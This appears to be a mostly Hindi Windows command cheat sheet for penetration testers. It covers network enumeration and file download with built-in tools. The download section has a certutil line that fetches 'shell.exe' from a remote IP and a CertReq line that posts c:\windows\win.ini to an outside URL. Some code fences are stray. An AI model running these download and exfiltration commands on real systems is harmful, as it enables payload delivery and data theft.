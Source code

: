 ```plaintext
route print
```

यह कमांड नेटवर्क की रूटिंग टेबल को प्रदर्शित करेगी, जिसमें नेटवर्क के बीच के रूट के बारे में जानकारी शामिल होगी।

```plaintext
arp -a
```

यह कमांड एआरपी (ARP) कैश टेबल को प्रदर्शित करेगी, जिसमें आईपी पते और उनके मैक एड्रेस के बीच के मैपिंग की जानकारी होगी।

```plaintext
netstat -ano
```

यह कमांड नेटवर्क कनेक्शन की सूची, पोर्ट नंबर, प्रोटोकॉल, स्थिति, और प्रक्रिया आईडी (PID) के बारे में जानकारी प्रदर्शित करेगी।
```
```bash
ipconfig /all
```
### ARP तालिका

ARP तालिका एक नेटवर्क डिवाइस के लिए एक नेटवर्क पते और उसके मेक-एड्रेस (MAC) के बीच मैपिंग प्रदान करती है। यह टेबल नेटवर्क के अन्य डिवाइसों के साथ संचार करने के लिए आवश्यक होती है। ARP तालिका में प्रत्येक पंक्ति में नेटवर्क पता, MAC पता और इंटरफेस का नाम होता है।

आप निम्नलिखित कमांड का उपयोग करके ARP तालिका को देख सकते हैं:

```plaintext
arp -a
```

यह कमांड वर्तमान में आपके सिस्टम की ARP तालिका को प्रदर्शित करेगी।
```bash
arp -A
```
## डाउनलोड

Bitsadmin.exe
```
bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```
CertReq.exe एक Windows कमांड लाइन उपकरण है जिसका उपयोग सर्टिफिकेट अभिमत को जनरेट करने और प्रशासकीय अनुरोधों को प्रस्तुत करने के लिए किया जाता है। इस उपकरण का उपयोग करके, आप सर्टिफिकेट अभिमत को जनरेट कर सकते हैं, सर्टिफिकेट अभिमत को अपडेट कर सकते हैं, सर्टिफिकेट अभिमत को रद्द कर सकते हैं और सर्टिफिकेट अभिमत को नवीनीकृत कर सकते हैं। यह उपकरण विंडोज सर्टिफिकेट सेवा (Windows Certificate Services) के साथ उपयोग करने के लिए उपयोगी होता है और सुरक्षा को बढ़ाने के लिए विभिन्न उपयोगों में उपयोग किया जा सकता है।
```
CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt
```
Certutil.exe is a command-line utility in Windows that is used to manage certificates. It can be used to perform various operations such as installing, exporting, and verifying certificates. Certutil.exe can also be used to decode and encode certificates, as well as to retrieve information about certificates stored in the Windows certificate store.
```
certutil.exe -urlcache -split -f "http://10.10.14.13:8000/shell.exe" s.exe
```
# डेस्कटॉप इमेज डाउनलोडर
